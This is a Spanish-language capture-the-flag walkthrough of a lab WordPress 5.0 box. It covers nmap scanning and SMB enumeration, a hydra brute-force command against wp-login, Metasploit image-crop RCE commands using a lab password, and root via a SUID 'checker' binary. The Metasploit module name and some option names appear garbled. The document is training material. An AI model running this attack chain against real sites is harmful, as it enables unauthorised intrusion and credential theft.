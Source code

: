 # Introducción

Billy Joel ha creado un blog en su propio ordenador para trabajar

Enumera la caja y encuentra las 2 flags

añade a /etc/hosts blog.thm

# Conectividad

![image](https://github.com/user-attachments/assets/1edfabed-d3c9-4d73-bf00-88cd30e23ceb)

# Enumeración

```
udo nmap -sCV -T4 --min-rate 4000 10.10.23.49
Starting Nmap 7.80 ( https://nmap.org ) at 2025-01-27 11:53 GMT
Nmap scan report for blog.thm (10.10.23.49)
Host is up (0.0014s latency).
Not shown: 996 closed ports
PORT    STATE SERVICE     VERSION
22/tcp  open  ssh         OpenSSH 7.6p1 Ubuntu 4ubuntu0.3 (Ubuntu Linux; protocol 2.0)
| ssh-hostkey: 
|   2048 57:8a:da:90:ba:ed:3a:47:0c:05:a3:f7:a8:0a:8d:78 (RSA)
|   256 c2:64:ef:ab:b1:9a:1c:87:58:7c:4b:d5:0f:20:46:26 (ECDSA)
|_  256 5a:f2:62:92:11:8e:ad:8a:9b:23:82:2d:ad:53:bc:16 (ED25519)
80/tcp  open  http        Apache httpd 2.4.29 ((Ubuntu))
|_http-generator: WordPress 5.0
| http-robots.txt: 1 disallowed entry 
|_/wp-admin/
|_http-server-header: Apache/2.4.29 (Ubuntu)
|_http-title: Billy Joel&#039;s IT Blog &#8211; The IT blog
139/tcp open  netbios-ssn Samba smbd 3.X - 4.X (workgroup: WORKGROUP)
445/tcp open  netbios-ssn Samba smbd 4.7.6-Ubuntu (workgroup: WORKGROUP)
MAC Address: 02:4D:28:51:D4:6B (Unknown)
Service Info: Host: BLOG; OS: Linux; CPE: cpe:/o:linux:linux_kernel

Host script results:
|_nbstat: NetBIOS name: BLOG, NetBIOS user: <unknown>, NetBIOS MAC: <unknown> (unknown)
| smb-os-discovery: 
|   OS: Windows 6.1 (Samba 4.7.6-Ubuntu)
|   Computer name: blog
|   NetBIOS computer name: BLOG\x00
|   Domain name: \x00
|   FQDN: blog
|_  System time: 2025-01-27T11:53:54+00:00
| smb-security-mode: 
|   account_used: guest
|   authentication_level: user
|   challenge_response: supported
|_  message_signing: disabled (dangerous, but default)
| smb2-security-mode: 
|   2.02: 
|_    Message signing enabled but not required
| smb2-time: 
|   date: 2025-01-27T11:53:54
|_  start_date: N/A
```

- 22 / SSH
- 80 / Http - Wordpress 5.0 / wp-admin
- 139
- 445 / smb

Vamos a enumerar primero los smb a ver si encontramos cosas interesantes o archivos y posteirormente irnos para la web

![image](https://github.com/user-attachments/assets/8ee189d5-f8a5-4d26-9b96-027e0a559997)

Encontramos un directorio un tanto extraño "BillySMB" vamos a ver si podemos enumerarlo

![image](https://github.com/user-attachments/assets/76bd8042-911c-423d-b016-4ad18ada599b)

Vamos a cogernos los archivos y meterles un exiftool y un steghide a ver si encontrmos algo interesante, y si no nos iremos al wordpress

Después de ir enumerando encontramos que si queremos extraer con steghide necesitaremos sacar contraseñas y que el mp4 es un tanto extaño, vamos a ir a enumerar la web a ver si encontramos cosas interesantes, además de que sabemos que es un wordpress y le podemos meter un wpscan de mientras

![image](https://github.com/user-attachments/assets/900c9269-4fbd-4d11-8964-30b5f71ecddc)

- Podemos ir enumerando el robots.txt
- también el Readme.txt

Con el wpsan encontramos directorios que no deberiamos tener acceso y esta guay para lo que podemos usar

- blog.thm/wp-content/uploads
- blog.thm/wp-cron.php
- La versión de twentytwenty esta desactualizada y también podemos ir tirando por ahi

Si seguimos enumerando encontramos que la persona que hace blogs se llama Karen Wheeler

```
http://blog.thm/author/kwheel/
```

Sacamos un usuario, con esto si quisieramos podriamos probar a meter un brute force con hydra o el mismo wpscan

```
wpscan --url http://blog.thm/ --usernames kwheel
```

Yo utilizare hydra al ser wordpress necesitaremos la cookie

```
hydra -l kwheel -P /usr/share/wordlists/rockyou.txt [IP] http-post-form "/wp-login.php:[línea cookies modificada] -I
```

![image](https://github.com/user-attachments/assets/92d24165-c341-4d5f-810b-d2c5f9653003)

![image](https://github.com/user-attachments/assets/7ca05594-cf93-46fe-bad4-a85b8733ba47)

Ya dentro vamos a enumerar el wordpress a ver si encontramos cosas interesantes, ya sabiamos perfectamente que el tema esta desactualizado con lo cual vamos a intentar algo por ahi.

# Explotación

Enumerando en la web no encontramos muchas cosas intereantes vamos a ver si hay vulnerabilidades relacionadas al twentytwenty

Nos fijamos que versiones de Wordpress = o menores a 5.0.0 existe la crop-image que da al usuario privilegios, para meter un archivo y subirlo, el segundo paso es subir al template de la pagina y crear un post con un modulo para un rev shell.

```
use exploit/multi/http/wp_cron_rce
options
set RHOSTS blog.thm
set USERANME kwheel
SET PASSWORD cutiepie1
run
```

Una vez se suba la imagen tendremos una shell con meterpreter.

![image](https://github.com/user-attachments/assets/f2442bdf-6933-454f-81bd-40ab29e037d7)

Enumeramos el user.txt pero parece ser que no es ese

![image](https://github.com/user-attachments/assets/d05a62d1-a3ed-4f9c-8896-8f57091aec29)

# Escala Privilegios

Vamos a ir nos al archivo wp-config.php sabiendo que aporta bastante información pudiendo a ver hasta contraseñas

Sacamos unas credencailes de una db

![image](https://github.com/user-attachments/assets/4493c4cf-c473-43ff-b03c-cd96dea9df80)

Podriamos enumerar si existe dicha BD (existe)

Una vez dentro nos metemos a la db con dicho usuario y pass 

![image](https://github.com/user-attachments/assets/6e766aea-222d-4888-a4e8-c8bbe0bab94e)

![image](https://github.com/user-attachments/assets/0822feee-579c-45e8-a5b6-366f2ff075d4)

Vamos a sacar los hashes de los usuarios para pivotear entre ellos

![image](https://github.com/user-attachments/assets/0b3a786b-5ee7-4826-be9b-49de009b6efe)

Una vez vamos a utilzar hash-identifier pero tienen toda la pinta quie son md5

Pero nada no lo llegamos a crackear

Vamos a meter linpeas 

![image](https://github.com/user-attachments/assets/24d7b1ea-a60a-4fc5-9eac-6e6719478db2)

/usr/bin/checker

Si nos vamos a hacktricks encontramos un buen recurso para volvernos root con esta vuln

Con ltrace

![image](https://github.com/user-attachments/assets/620dd327-1fca-4ab9-a83c-5c3038fe6b14)

Vamos a exportar la variable admin  y ejecutar el checker

![image](https://github.com/user-attachments/assets/442b33d7-4a4c-4221-9e42-51d72a704c64)

GGG!!!!!!! ahora a buscar las flags


